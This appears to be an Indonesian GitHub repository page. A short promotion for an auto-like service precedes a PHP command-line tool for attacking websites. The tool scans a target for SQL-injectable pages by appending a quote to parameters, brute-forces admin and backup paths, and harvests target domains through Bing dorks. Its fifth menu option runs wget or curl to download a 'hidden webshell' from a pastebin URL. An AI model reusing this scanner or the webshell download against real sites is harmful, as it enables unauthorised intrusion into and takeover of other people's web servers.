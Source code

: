 # my-projeck-sahyan
my-projeck sahyan
[==>>>THE KING AUTO LIKE<<<==]

like Up To 500-2000 like per 15menit

Auto Like Resmi Dari Himzi Auto Like

Link===>http://toplikers[.]16mb[.]com

Nb: hapus tanda []

Like banyak biar keren






<?php
error_reporting(0);
@ini_set('memory_limit', '64M');
@header('Content-Type: text/html; charset=UTF-8');
if(strtolower(substr(PHP_OS,0,3))=="win"){
	$bersih="cls";
	$download="curl --output ini.php https://pastebin.com/raw/XsHL7qxq";
}else {
	$download="wget -O ini.php https://pastebin.com/raw/XsHL7qxq";
	$bersih="clear";
}
function userinput($message){
	global $white, $bold, $greenbg, $redbg, $bluebg, $cln, $lblue, $green;
	$inputstyle = $cln . $bold . $lblue . "[#] " . $message . " => " . $green ;
	echo $inputstyle;
}
function gethttpheader($reallink){
	  $hdr=get_headers($reallink);
	  foreach($hdr as $shdr) {
		  echo "\n\e[92m\e[1m[i]\e[0m  $shdr";
  }echo "\n";
}
function robots($reallink){
  $rbturl    = $reallink . "/robots.txt";
  $rbthandle = curl_init($rbturl);
  curl_setopt($rbthandle, CURLOPT_SSL_VERIFYPEER, false);
  curl_setopt($rbthandle, CURLOPT_RETURNTRANSFER, TRUE);
  $rbtresponse = curl_exec($rbthandle);
  $rbthttpCode = curl_getinfo($rbthandle, CURLINFO_HTTP_CODE);
  if ($rbthttpCode == 200) {
      $rbtcontent = readcontents($rbturl);
      if ($rbtcontent == ""){
          echo "200 tapi null!";
        }else {
          echo "\e[92mFound \e[0m\n";
          echo "$white\n=========================== isi ===========================\n";
          echo $rbtcontent;
          echo "$white\n=========================== isi ===========================";
        }
    }else {
      echo "\e[91m 404 not found \e[0m\n";
   }
}
function getsource($url, $proxy) {
    $curl = curl_init($url);
    curl_setopt($curl, CURLOPT_USERAGENT, "Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.2) Gecko/20090729 Firefox/3.5.2 GTB5");
    curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
    if ($proxy) {
        $proxy = explode(':', autoprox());
        curl_setopt($curl, CURLOPT_PROXY, $proxy[0]);
        curl_setopt($curl, CURLOPT_PROXYPORT, $proxy[1]);
    }
    $content = curl_exec($curl);
    curl_close($curl);
    return $content;
}
$white = "\e[97m";
$yellow = "\e[93m";
$blue   = "\e[34m";
$lblue  = "\e[36m";
$cln    = "\e[0m";
$green  = "\e[92m";
$red    = "\e[91m";
$bluebg = "\e[44m";
$lbluebg = "\e[106m";
$greenbg = "\e[42m";
$lgreenbg = "\e[102m";
$yellowbg = "\e[43m";
$lyellowbg = "\e[103m";
$redbg = "\e[101m";
$bold   = "\e[1m";
system("$bersih");
function asciiart() {
echo " 
   ___    ___      _                ___                           
  / __|  / _ \    | |       o O O  / __|    __     __ _    _ _    
  \__ \ | (_) |   | |__    o       \__ \   / _|   / _` |  | ' \   
  |___/  \__\_\   |____|  TS__[O]  |___/   \__|_  \__,_|  |_||_|  
\n";
}
asciiart();
echo "$yellow=========================== Cvar1984 ===========================\n";
Cvar1984:
echo "\n";
userinput("Web yg ingin di scan");
$ip = trim(fgets(STDIN, 1024));
if (strpos($ip, '://') !== false) {
    echo $bold . $red . "\n[!] HTTP / HTTPS Ter Deteksi, input URL tanpa HTTP / HTTPS [!]\n" . $CURLOPT_RETURNTRANSFER;
    goto Cvar1984;
  }elseif (strpos($ip, '.') == false) {
    echo $bold . $red . "\n[!] URL Format false [!] \n" . $cln;
    goto Cvar1984;
  }elseif (strpos($ip, ' ') !== false) {
    echo $bold . $red . "\n[!] URL Format false [!] \n" . $cln;
    goto Cvar1984;
  }else {
        $ipsl = "http://";
      }
	  aksi:
	  system("$bersih");
	  asciiart();
	  echo "$yellow=========================== Cvar1984 ===========================\n";
	  echo "$white [1] SQL Error Page ( Cari Pages Vuln Sql )\n";
	  echo "$white [2] Admin Finder ( Cari Pages Login Admin )\n";
	  echo "$white [3] Robots.txt ( Caritau Isi Robots.txt )\n";
	  echo "$white [4] Bing Dorker ( Dorking Anything )\n";
	  echo "$white [5] Download Hidden Webshell ( output=ini.php )\n";
	  echo "$green [B] Back ( Ganti Target )\n";
	  echo "$red [Q]  Quit!\n";
	  echo "$yellow=========================== Cvar1984 ===========================\n";
    userinput("Pilih Aksi Pada List");
    $pilih = trim(fgets(STDIN, 1024));
    if (!in_array($pilih, array('1','2','3','4','5','B','Q','b','q',), true)) {
        echo $bold . $red . "\n[!] Input false [!] \n\n" . $cln;
        goto aksi;
      }else {
		  if($pilih == "4") { 
userinput("Masukan Dork");
$dork=trim(fgets(STDIN,1024));
$do=urlencode($dork);
        $npage = 1;
        $npages = 30000;
        $allLinks = array();
        $lll = array();
        while($npage <= $npages) {
            $x = getsource("http://www.bing.com/search?q=".$do."&first=" . $npage."&FORM=PERE4", $proxy);
            if ($x) {
                preg_match_all('#<h2><a href="(.*?)" h="ID#', $x, $findlink);
                foreach ($findlink[1] as $fl) array_push($allLinks, $fl);
                $npage = $npage + 10;
                if (preg_match("(first=" . $npage . "&amp)siU", $x, $linksuiv) == 0) break;
            } else break;
        }
        $URLs = array();
        foreach($allLinks as $url){
            $exp = explode("/", $url);
            $URLs[] = $exp[2];
        }
        $array = array_filter($URLs);
        $array = array_unique($array);
        $sss=count(array_unique($array));
        foreach ($array as $domain) {
 
            echo"\n$red http://".$domain.'/';
			    echo "\n$green [!] Scanning Sukses. Tekan Enter untuk lanjut [!]\n";
            trim(fgets(STDIN, 1024));
			goto aksi;
        }
	}elseif($pilih == "3") {
            $reallink = $ipsl . $ip;
            $lwwww    = str_replace("www.", "", $ip);
            echo $blue . $bold . "[i] Scanning :\e[92m $ipsl" . "$ip \n";
            echo $bold . $yellow . "[S] Scan Tipe : Robots.txt" . $cln;
            echo "\n\n";
            echo $lblue . $bold . "[i] Robots File:$cln ";
            robots($reallink);
            echo "\n\n";
            echo "$green [!] Scanning Sukses. Tekan Enter untuk lanjut [!]\n";
            trim(fgets(STDIN, 1024));
            goto aksi;
          }elseif ($pilih == "5") {
			  echo "\n\n";
			  system("$download");
			   echo "$green [!] Tekan Enter untuk lanjut [!]";
            trim(fgets(STDIN, 1024));
			goto aksi;
		  }elseif ($pilih == 'q' | $pilih == 'Q') {
            die();
          }elseif ($pilih == 'b' || $pilih == 'B') {
            system("$bersih");
            goto Cvar1984;
          }elseif ($pilih == "2") {
            echo $blue . $bold . "[i] Scanning :\e[92m $ipsl" . "$ip \n";
            echo $bold . $yellow . "[S] Scan Tipe : Admin Panel Finder" . $cln;
            echo "\n\n";
            echo $bold . $blue . "\n[i] Loading Crawler File ....\n" . $cln;
            if (file_exists("admin.ini")) {
                echo $bold . $green . "\n [i] 200 admin.ini! Scanning  Admin Pannel [i]\n" . $cln;
                $crawllnk = file_get_contents("admin.ini");
                $crawls   = explode(',', $crawllnk);
                echo "\n URLs Loaded : " . count($crawls) . "\n\n";
                foreach ($crawls as $crawl) {
                    $url    = $ipsl . $ip . "/" . $crawl;
                    $handle = curl_init($url);
                    curl_setopt($handle, CURLOPT_RETURNTRANSFER, TRUE);
                    $response = curl_exec($handle);
                    $httpCode = curl_getinfo($handle, CURLINFO_HTTP_CODE);
                    if ($httpCode == 200) {
                        echo $bold . $lblue . "\n\n[URL] $url : " . $cln;
                        echo $bold . $green . "Found!" . $cln;
                      }elseif ($httpCode == 404) {
                      }else {
                        echo $bold . $lblue . "\n\n[URL] $url : " . $cln;
                        echo $bold . $yellow . "HTTP Response : " . $httpCode . $cln;
                      }
                    curl_close($handle);
                  }
              }else {
                echo "\n 404 File Not Found, Aborting Scan ....\n";
              }
            if (file_exists("backup.ini")) {
                echo "\n[!] 200 Backup Crawler File ! Scanning Situs Backups [!]\n";
                $crawllnk = file_get_contents("backup.ini");
                $crawls   = explode(',', $crawllnk);
                echo "\n URLs Loaded: " . count($crawls) . "\n\n";
                foreach ($crawls as $crawl)
                  {
                    $url    = $ipsl . $ip . "/" . $crawl;
                    $handle = curl_init($url);
                    curl_setopt($handle, CURLOPT_RETURNTRANSFER, TRUE);
                    $response = curl_exec($handle);
                    $httpCode = curl_getinfo($handle, CURLINFO_HTTP_CODE);
                    if ($httpCode == 200) {
                        echo $bold . $lblue . "\n\n[URL] $url : " . $cln;
                        echo $bold . $green . "Found!" . $cln;
                      }elseif ($httpCode == 404) {
                      }else {
                        echo $bold . $lblue . "\n\n[URL] $url : " . $cln;
                        echo $bold . $yellow . "HTTP Response : " . $httpCode . $cln;
                      }
                    curl_close($handle);
                  }
              }else {
                echo "\n 404 File Not Found, Aborting Admin Finder ....\n";
              }if (file_exists("others.ini")) {
                echo "\n[!] 200 General Crawler File Found! Scanning The Site [!]\n";
                $crawllnk = file_get_contents("others.ini");
                $crawls   = explode(',', $crawllnk);
                echo "\n URLs Loaded: " . count($crawls) . "\n\n";
                foreach ($crawls as $crawl) {
                    $url    = $ipsl . $ip . "/" . $crawl;
                    $handle = curl_init($url);
                    curl_setopt($handle, CURLOPT_RETURNTRANSFER, TRUE);
                    $response = curl_exec($handle);
                    $httpCode = curl_getinfo($handle, CURLINFO_HTTP_CODE);
                    if ($httpCode == 200) {
                        echo $bold . $lblue . "\n\n[URL] $url : " . $cln;
                        echo $bold . $green . "Found!" . $cln;
                      }elseif ($httpCode == 404) {
                      }else {
                        echo $bold . $lblue . "\n\n[URL] $url : " . $cln;
                        echo $bold . $yellow . "HTTP Response: " . $httpCode . $cln;
                      }curl_close($handle);
                  }
              }else {
                echo "\n 404 File Not Found, Aborting Scan ....\n";
              }
          }elseif ($pilih == "1") {
            $reallink = $ipsl . $ip;
            $srccd    = file_get_contents($reallink);
            $lwwww    = str_replace("www.", "", $ip);
            echo $blue . $bold . "[i] Scanning :\e[92m $ipsl" . "$ip \n";
            echo $bold . $yellow . "[*] Tipe Scan : SQL Error Page" . $cln;
            echo "\n\n";
            $lulzurl = $reallink;
            $html    = file_get_contents($lulzurl);
            $dom     = new DOMDocument;
            @$dom->loadHTML($html);
            $links = $dom->getElementsByTagName('a');
            $vlnk  = 0;
            foreach ($links as $link) {
                $lol = $link->getAttribute('href');
                if (strpos($lol, '?') !== false) {
                    echo $lblue . $bold . "\n[#] " . $yellow . $lol . "\n" . $cln;
                    echo $blue . $bold . "[!] ";
                    $sqllist = file_get_contents('sqlerrors.ini');
                    $sqlist  = explode(',', $sqllist);
                    if (strpos($lol, '://') !== false) {
                        $sqlurl = $lol . "'";
                      }else {
                        $sqlurl = $ipsl . $ip . "/" . $lol . "'";
                      }
                    $sqlsc = file_get_contents($sqlurl);
                    $sqlvn = $bold . $red . "Gak Vulnerable";
                    foreach ($sqlist as $sqli) {
                        if (strpos($sqlsc, $sqli) !== false)
                            $sqlvn = $green . $bold . "Vulnerable!!";
                      }
                    echo $sqlvn;
                    echo "\n$cln";
                    echo "\n";
                    $vlnk++;
                  }
              }
            echo "\n" . $blue . $bold . "[!] Scanning : " . $green . $vlnk;
            echo "\n\n";
            echo "$green [!] Scanning Sukses. Tekan Enter untuk lanjut [!]";
            trim(fgets(STDIN, 1024));
            goto aksi;
          }else goto aksi;
	  }
?>
